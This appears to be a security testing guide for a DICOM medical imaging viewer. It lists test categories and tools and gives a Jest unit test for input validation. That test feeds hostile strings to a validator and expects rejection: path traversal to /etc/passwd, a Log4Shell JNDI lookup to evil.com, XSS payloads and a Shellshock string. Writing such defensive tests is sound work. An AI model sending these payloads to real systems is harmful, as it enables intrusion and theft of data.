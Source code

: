 # Security Testing Guide

## 🎯 Overview

This guide provides comprehensive instructions for conducting security testing on the DICOM medical imaging viewer application. It covers automated testing, manual testing procedures, and security assessment methodologies.

## 🏗️ Testing Framework

### Test Categories
1. **Unit Security Tests**: Individual security function testing
2. **Integration Security Tests**: Security workflow testing
3. **End-to-End Security Tests**: Complete security scenario testing
4. **Performance Security Tests**: Security impact on performance
5. **Compliance Tests**: Regulatory compliance validation

### Testing Tools
- **Jest**: Unit and integration testing framework
- **React Testing Library**: React component testing
- **Playwright**: End-to-end testing
- **ESLint Security Plugin**: Static security analysis
- **npm audit**: Dependency vulnerability scanning
- **Custom Security Scanner**: Application-specific security checks

## 🔬 Unit Security Testing

### Input Validation Testing
**Location**: `src/tests/input-validation.test.ts`

```typescript
import { validateDicomTag, validateNumericInput, sanitizeUserInput } from '@/utils/input-validation';

describe('Input Validation Security', () => {
  describe('DICOM Tag Validation', () => {
    it('should accept valid DICOM tags', () => {
      expect(validateDicomTag('(0008,0020)')).toBe(true);
      expect(validateDicomTag('(FFFF,FFFF)')).toBe(true);
    });

    it('should reject invalid DICOM tags', () => {
      expect(validateDicomTag('invalid')).toBe(false);
      expect(validateDicomTag('(ZZZZ,0020)')).toBe(false);
      expect(validateDicomTag('<script>alert("xss")</script>')).toBe(false);
    });

    it('should handle malicious input patterns', () => {
      const maliciousInputs = [
        '../../etc/passwd',
        '${jndi:ldap://evil.com/a}',
        '<img src=x onerror=alert(1)>',
        'SELECT * FROM users',
        '() { :; }; echo vulnerable'
      ];

      maliciousInputs.forEach(input => {
        expect(validateDicomTag(input)).toBe(false);
      });
    });
```